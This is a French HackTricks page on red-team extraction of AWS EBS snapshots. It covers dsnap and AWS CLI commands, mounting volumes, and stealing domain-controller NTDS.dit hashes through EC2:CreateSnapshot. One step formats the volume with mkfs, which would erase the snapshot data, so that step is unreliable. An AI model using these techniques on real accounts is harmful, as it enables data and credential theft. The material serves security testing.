 # AWS - Extraction de cliché EBS

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFT**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>

### Vérification d'un cliché localement
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
**Note** que dsnap ne vous permettra pas de télécharger des instantanés publics. Pour contourner cela, vous pouvez faire une copie de l'instantané dans votre compte personnel, et le télécharger :
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
Pour plus d'informations sur cette technique, consultez la recherche originale sur [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Vous pouvez le faire avec Pacu en utilisant le module [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)

### Vérification d'un instantané sur AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Montez-le dans une VM EC2 sous votre contrôle** (il doit être dans la même région que la copie de la sauvegarde):

Étape 1: Un nouveau volume de la taille et du type de votre choix doit être créé en allant dans EC2 -> Volumes.

Pour pouvoir effectuer cette action, suivez ces commandes:
- Créez un volume EBS à attacher à l'instance EC2.
- Assurez-vous que le volume EBS et l'instance sont dans la même zone.

Étape 2: Sélectionnez l'option "attacher le volume" en cliquant avec le bouton droit sur le volume créé.

Étape 3: Sélectionnez l'instance dans la zone de texte de l'instance.

Pour pouvoir effectuer cette action, utilisez la commande suivante:
- Attachez le volume EBS.

Étape 4: Connectez-vous à l'instance EC2 et répertoriez les disques disponibles en utilisant la commande `lsblk`.

Étape 5: Vérifiez si le volume contient des données en utilisant la commande `sudo file -s /dev/xvdf`.

Si la sortie de la commande ci-dessus montre "/dev/xvdf: data", cela signifie que le volume est vide.

Étape 6: Formatez le volume dans le système de fichiers ext4 en utilisant la commande `sudo mkfs -t ext4 /dev/xvdf`. Alternativement, vous pouvez également utiliser le format xfs en utilisant la commande `sudo mkfs -t xfs /dev/xvdf`. Veuillez noter que vous devez utiliser soit ext4, soit xfs.

Étape 7: Créez un répertoire de votre choix pour monter le nouveau volume ext4. Par exemple, vous pouvez utiliser le nom "newvolume".

Pour pouvoir effectuer cette action, utilisez la commande `sudo mkdir /newvolume`.

Étape 8: Montez le volume dans le répertoire "newvolume" en utilisant la commande `sudo mount /dev/xvdf /newvolume/`.

Étape 9: Changez de répertoire vers le répertoire "newvolume" et vérifiez l'espace disque pour valider le montage du volume.

Pour pouvoir effectuer cette action, utilisez les commandes suivantes:
- Changez de répertoire vers `/newvolume`.
- Vérifiez l'espace disque en utilisant la commande `df -h .`. La sortie de cette commande devrait montrer l'espace libre dans le répertoire "newvolume".

Vous pouvez faire cela avec Pacu en utilisant le module `ebs__explore_snapshots`.

### Vérification d'un instantané dans AWS (en utilisant la ligne de commande)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

### Copie d'ombre

Tout utilisateur AWS possédant l'autorisation **`EC2:CreateSnapshot`** peut voler les hachages de tous les utilisateurs de domaine en créant un **instantané du contrôleur de domaine**, en le montant sur une instance qu'ils contrôlent et en **exportant les fichiers NTDS.dit et SYSTEM** du registre pour une utilisation avec le projet secretsdump d'Impacket.

Vous pouvez utiliser cet outil pour automatiser l'attaque : [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) ou vous pourriez utiliser l'une des techniques précédentes après avoir créé un instantané.


# Références
* https://devopscube.com/mount-ebs-volume-ec2-instance/

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
